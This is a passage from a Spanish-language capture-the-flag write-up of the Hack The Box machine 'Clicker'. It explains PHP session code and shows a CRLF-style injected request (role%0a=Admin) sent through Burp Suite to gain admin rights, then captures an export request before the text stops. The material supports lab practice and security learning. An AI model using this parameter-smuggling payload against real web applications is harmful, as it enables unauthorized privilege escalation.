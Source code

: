```php
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
}
?>
```
- **if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "")**: Se verifica la existencia la sesion llamada PLAYER ademas de verificar si su contenido no esta vacio, seguramente para saber si el jugador inicio sesion

- **foreach($_GET as $key=>$value)**: Se usar foreach para recorrer todos los parametros de la peticion que se hace por GET, en nuestro caso, los clicks y el nivel

- **if (strtolower($key) === 'role')**: Si cuando recorre los parametros encuentra uno con nombre "role" se redirige el index.php

Y lo demas es para guardar el valor de los parametros y actualizar los valores de la sesion PLAYER

Sabiendo esto, debemos de encontrar una forma de hacernos **Admin**

## CRLF Injection

Las siglas CRLF son de retorno de carro (CR) y salto de linea (LF). Estos caracteres que sin "invisibles" se usan para indicar cuando inicar y cuando termina un encabezados.

CRLF injection es una vulnerabilidad que permite inyectar estos caracteres para manipular los encabezados, asi engañando a la aplicacion web e indicarle que un encabezado o valor de estos, ha terminado o comenzado.

Sabiendo esto, en la peticion web podemos agregar el caracter **%0A** (line feed) para indicarle el comienzo de un nuevo parametro en esa peticion, por lo que quedaria asi:

```ruby
GET /save_game.php?clicks=29&level=0&role%0a=Admin HTTP/1.1
```

En burpsuite en la pestaña proxy modificamos la peticion y le damos **forward** , cerramos y volvemos  a iniciar sesion y ya seremos admin

![](/assets/img/clicker/2.png)

Una vez que seamos admin, veremos que podemos exportar los resultados en formato txt, json y html y nos genera una ruta como esta: **exports/top_players_fl8moszw.txt**

Si vemos le peticion, podemos ver que manda a llamar el archivo **exports.php** y tambien le manda la extension como parametro

```ruby
POST /export.php HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://clicker.htb
Connection: close
Referer: http://clicker.htb/admin.php?msg=Data%20has%20been%20saved%20in%20exports/top_players_fl8moszw.txt
Cookie: PHPSESSID=f131nr6f06m2ocr5i3ap1gbt3h
Upgrade-Insecure-Requests: 1

threshold=1000000&extension=txt
```
